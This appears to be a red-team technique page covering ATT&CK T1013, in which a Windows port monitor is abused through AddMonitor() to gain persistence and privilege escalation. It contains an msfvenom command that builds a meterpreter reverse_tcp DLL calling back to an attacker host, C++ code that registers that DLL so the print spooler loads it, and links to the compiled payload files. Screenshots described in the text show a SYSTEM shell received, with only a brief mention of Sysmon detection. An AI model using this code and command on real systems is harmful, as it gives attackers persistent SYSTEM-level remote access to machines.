 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe as part of the technique - see bottom of the page for more info about the technique's high-lever overview:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code-tabs %}
{% code-tabs-item title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed:

![](../.gitbook/assets/monitor-loaddll.png)

![](../.gitbook/assets/monitor-loaddll2.png)

which spawns a rundll32 process \(meterpreter payload\) which initiates a connection back to the attacker:

![](../.gitbook/assets/rundll-connect.png)

The attacker receives a reverse meterpreter session as **SYSTEM**:

![](../.gitbook/assets/monitor-shell-system.png)

The below shows confirms the procmon results explained above:

![](../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../.gitbook/assets/monitor-sysmon.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1013\",\"type\":\"link\",\"title\":\"Port Monitors - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=dq2Hv7J9fvk\",\"type\":\"video\",\"title\":\"DEF CON 22 - Brady Bloxham - Getting Windows to Play with Itself\",\"description\":\"Slides here: https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf\\n\\nGetting Windows to Play with Itself: A Hacker\'s Guide to Windows API Abuse \\nBrady Bloxham PRINCIPAL SECURITY CONSULTANT, SILENT BREAK SECURITY \\nWindows APIs are often a blackbox with poor documentation, taking input and spewing output with little visibility on what actually happens in the background. By analyzing \(and abusing\) the underlying functionality of these seemingly benign APIs, we can effectively manipulate Windows into performing stealthy custom attacks bypassing the latest in protective defenses. In this talk, we’ll get Windows to play with itself nonstop while revealing 0day persistence, previously unknown DLL injection techniques, and Windows API tips and tricks that any good penetration tester and/or malware developer should know. :\) To top it all off, a custom HTTP beaconing backdoor will be released leveraging the newly released persistence and injection techniques. So much Windows abuse, so little time.\\n\\n\\nBrady Bloxham is founder and Principal Security Consultant at Silent Break Security, where he focuses on providing advanced, custom penetration testing services. Brady started his career working for the various three letter agencies, where he earned multiple awards for exceptional performance in conducting classified network operations. Brady stays current in the information security field by presenting at various hacker conferences, as well as providing training on building custom offensive security tools and advanced penetration testing techniques. Brady also maintains the PwnOS project and holds several highly respected industry certifications. :\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/dq2Hv7J9fvk/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/dq2Hv7J9fvk?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/dq2Hv7J9fvk?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"AddMonitor function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"MONITOR\_INFO\_2 structure \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}



